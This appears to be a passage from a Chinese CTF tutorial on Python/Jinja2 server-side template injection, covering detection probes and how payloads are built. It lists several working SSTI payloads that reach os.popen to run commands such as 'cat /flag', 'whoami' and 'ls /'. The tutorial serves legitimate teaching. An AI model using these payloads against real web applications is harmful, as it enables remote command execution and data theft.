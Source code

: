 当我们传入 \{{9\*9\}} 时他会帮我们运算后输出 81

![image-20231128141012093](../.gitbook/assets/image-20231128141012093.png)

## Python模板注入一般流程

> 注意模板注入是一种方式，它不归属于任何语言，不过目前遇见的大多数题目还是以python的SSTI为主，所以我们用 Python SSTI 为例子带各位熟悉模板注入。

一般我们会在疑似的地方尝试插入简单的模板表达式，如 `{{7*7}}` `{{config}}`，看看是否能在页面上显示预期结果，以此确定是否有注入点。

当然本来还需要识别模板的，但大多数题目都是 Jinja2 就算，是其他模板，多也以Python为主，所以不会差太多，所以我们这里统一用 Jinja 来讲。

### 引

很多时候，你在阅读SSTI相关的WP时，你会发现最后的payload都差不多长下面的样子：

```
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}
......
```

是不是觉得每次看 WP 都会觉得很懵逼，这些方法为什么要这么拼，是怎么构造出来的？前面这一串长长的都是什么？

这里有几个知识点:

* **对象** : 在 Python 中 **一切皆为对象** ，当你创建一个列表 `[]`、一个字符串 `""` 或一个字典 `{}` 时，你实际上是在创建不同类型的对象。
* **继承** : 我们知道对象是类的实例，类是对象的模板。在我们创建一个对象的时候，其实就是创建了一个类的实例，而在python中所有的类都继承于一个基类，我们可以通过一些方法，从创建的对象反向查找它的类，以及对应类父类。这样我们就能从任意一个对象回到类的端点，也就是基类，再从端点任意的向下查找。
* **魔术方法** : 我们如何去实现在继承中我们提到的过程呢？这就需要在上面Payload中类似 `__class__`的魔术方法了，通过拼接不同作用的魔术方法来操控类，我们就能实现文件的读取或者命令的执行了。
